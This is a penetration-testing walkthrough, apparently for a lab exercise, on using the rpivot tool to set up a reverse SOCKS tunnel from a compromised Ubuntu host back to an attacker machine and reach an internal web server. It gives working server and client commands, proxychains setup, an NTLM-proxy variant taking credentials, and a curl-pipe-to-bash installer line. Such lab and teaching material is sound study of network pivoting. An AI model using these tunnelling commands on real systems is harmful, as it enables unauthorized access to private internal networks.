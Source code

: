 ### Overview

**Rpivot** is a Python-based **reverse SOCKS proxy** that allows pivoting from an internal network to an external attack host. It enables SOCKS proxying from a compromised machine (pivot host) to an attacker system over a custom port, exposing internal services such as HTTP, RDP, etc.

---

### Environment Setup

|   |   |   |
|---|---|---|
|Role|IP Address|Description|
|Attacker Machine|10.10.14.18|Runs `server.py` to receive reverse SOCKS proxy|
|Pivot Host (Ubuntu)|10.129.15.50 / 172.16.5.129|Internal machine running `client.py`|
|Web Server Target|172.16.5.135|Internal web server running on port 80|

|   |   |
|---|---|
|Port|Description|
|9999|Rpivot server port (attacker side)|
|9050|Local SOCKS proxy exposed by rpivot|
|80|Web server port on internal target|

---

## 1. Cloning Rpivot Repository

```Shell
git clone <https://github.com/klsecservices/rpivot.git>
```

Downloads the rpivot project from GitHub.

---

## 2. Installing Python 2.7

**Option A – via apt:**

```Shell
sudo apt-get install python2.7
```

**Option B – via pyenv:**

```Shell
curl <https://pyenv.run> | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```

Ensures Python 2.7 is available for running `rpivot`.

---

## 3. Running Rpivot Server on the Attacker Host

```Shell
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

- **-proxy-port 9050**: Local port for proxychains to use
- **-server-port 9999**: Listening port for incoming connection from pivot host
- **-server-ip 0.0.0.0**: Listen on all interfaces

---

## 4. Transferring Rpivot to Pivot Host

```Shell
scp -r rpivot ubuntu@<IP_of_Ubuntu_Pivot>:/home/ubuntu/
```

Copies the `rpivot` folder to the compromised Ubuntu host.

---

## 5. Running Rpivot Client from Pivot Host

```Shell
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

- **-server-ip**: IP of attacker machine
- **-server-port**: Port `server.py` is listening on
- Establishes a reverse connection from pivot to attacker, enabling SOCKS tunneling

---

## 6. Confirming Connection

```Plain
New connection from host 10.129.202.64, source port 35226
```

Output from `server.py` on attacker confirms incoming reverse proxy connection from the pivot.

---

## 7. Configuring Proxychains on Attacker Host

**Edit** `**/etc/proxychains.conf**` **and ensure the last line includes:**

```Plain
socks4 127.0.0.1 9050
```

Routes all tool traffic through the local SOCKS proxy started by `server.py`.

---

## 8. Browsing the Internal Web Server

```Shell
proxychains firefox-esr 172.16.5.135:80
```

Opens Firefox using the rpivot tunnel to access the internal web server.

**Expected result:**

- Apache2 Default Page
- Confirms successful access to the internal service via SOCKS proxy

---

## 9. Optional: NTLM Proxy Support

If behind an **NTLM-authenticated proxy**, use the following command:

```Shell
python client.py --server-ip <TargetWebServerIP> --server-port 8080 \\
--ntlm-proxy-ip <ProxyIP> --ntlm-proxy-port 8081 \\
--domain <WindowsDomain> --username <username> --password <password>
```